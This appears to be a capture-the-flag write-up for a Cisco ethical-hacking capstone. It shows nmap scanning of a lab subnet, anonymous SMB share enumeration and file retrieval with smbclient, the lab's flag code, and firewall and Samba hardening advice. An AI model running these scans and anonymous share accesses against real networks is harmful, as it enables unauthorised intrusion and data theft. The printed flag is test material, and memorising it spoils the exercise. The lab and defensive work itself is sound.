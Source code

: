 Challenge 3: Exploiting Open SMB Server Shares
Overview
This document outlines the steps to complete Challenge 3 of the Cisco Ethical Hacker Capstone Project. The objective is to identify and exploit open SMB server shares on the 10.6.6.0/24 network, locate the taxes.txt file in the print$ share, extract the code A9!15wa2, and propose remediation strategies.
Prerequisites

Tools: nmap, smbclient (installed via Chocolatey on Windows or native on Linux).
Environment: Git Bash on Windows, within /e/CTF-Projects/Cisco-Ethical-Hacker-Capstone.
Network: Access to 10.6.6.0/24 for scanning.

Steps
Step 1: Scan for SMB Hosts
Objective
Identify hosts running SMB services on the 10.6.6.0/24 network.
Command
nmap -p 139,445 10.6.6.0/24

Result
Host 10.6.6.23 has port 445 open, indicating SMB services.
Screenshot
View Nmap Scan Output
Step 2: Enumerate SMB Shares
Objective
List shares on 10.6.6.23 accessible anonymously.
Command
smbclient -L //10.6.6.23 -N

Output
Sharename       Type      Comment
---------       ----      -------
homes           Disk      All home directories
workfiles       Disk      Confidential Workfiles
print$          Disk      Printer Drivers
IPC$            IPC       IPC Service (Samba 4.9.5-Debian)

Analysis

print$ and IPC$ are accessible without authentication.
homes and workfiles likely require credentials.

Screenshot
View SMB Share List
Step 3: Access and Download the File
Objective
Connect to the print$ share, locate taxes.txt, and extract the code.
Commands

Connect to print$:smbclient //10.6.6.23/print$ -N


Inside smbclient:ls
get taxes.txt
exit


Inspect locally:cat taxes.txt



Result

taxes.txt is found in print$.
Contents: A9!15wa2.

Screenshot
View SMB Client Operations
Step 4: Propose Remediation
Objective
Suggest methods to secure the SMB server.
Recommendations

Restrict Access:
Use firewall rules to limit SMB ports (139, 445) to trusted IPs.
Example:iptables -A INPUT -p tcp --dport 445 -s <trusted_ip> -j ACCEPT
iptables -A INPUT -p tcp --dport 445 -j DROP




Enforce Strong Authentication:
In /etc/samba/smb.conf, configure:restrict anonymous = 2
guest ok = no


Enable SMB signing/encryption and use strong passwords.



Folder Structure

challenges/challenge-3-samba-exploits/
screenshots/
step1_nmap_scan.png
step2_smbclient_list_shares.png
step3_smbclient_operations.png


smb-commands.txt: Commands used.
walkthrough.md: This file.


